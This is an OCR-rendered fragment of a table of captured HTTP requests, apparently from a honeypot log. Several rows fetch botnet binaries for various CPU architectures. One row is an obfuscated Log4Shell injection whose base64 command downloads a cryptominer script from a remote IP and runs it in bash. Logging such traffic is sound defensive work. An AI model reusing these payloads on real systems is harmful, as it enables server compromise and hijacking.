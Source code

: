 |  14 |                     5 | \x03\x00\x00\x13\x0E\xE0\x00\x00\x00\x00\x00\x01\x00\x08\x00\x02\x00\x00\x00\x03\x00\x01\xD6                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
|  15 |                     4 | GET /binaries/arm5 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
|  16 |                     4 | GET /lmaoWTF/loligang.arm7 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  17 |                     4 | GET /lmaoWTF/loligang.m68k HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  18 |                     4 | GET /Fantazy.sh4 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|  19 |                     4 | GET /bins/byte.mpsl HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
|  20 |                     4 | GET /bins/byte.spc HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
|  21 |                     4 | GET /t%28%27$%7B$%7Benv:NaN:-j%7Dndi$%7Benv:NaN:-:%7D$%7Benv:NaN:-l%7Ddap$%7Benv:NaN:-:%7D//46.8.226.196:3306/TomcatBypass/Command/Base64/ZXhwb3J0IEhPTUU9L3RtcDsgY3VybCAtcyAtTCBodHRwOi8vNDYuOC4yMjYuMTk2L3NjcmlwdHMvNHRoZXBvb2xfbWluZXIuc2ggfCBiYXNoIC1zOyB3Z2V0IC1xTy0gaHR0cDovLzQ2LjguMjI2LjE5Ni9zY3JpcHRzLzR0aGVwb29sX21pbmVyLnNoIHwgYmFzaCAtcw==%7D%27%29 HTTP/1.1                                                                                                                                                                                                                                                                                                                                           |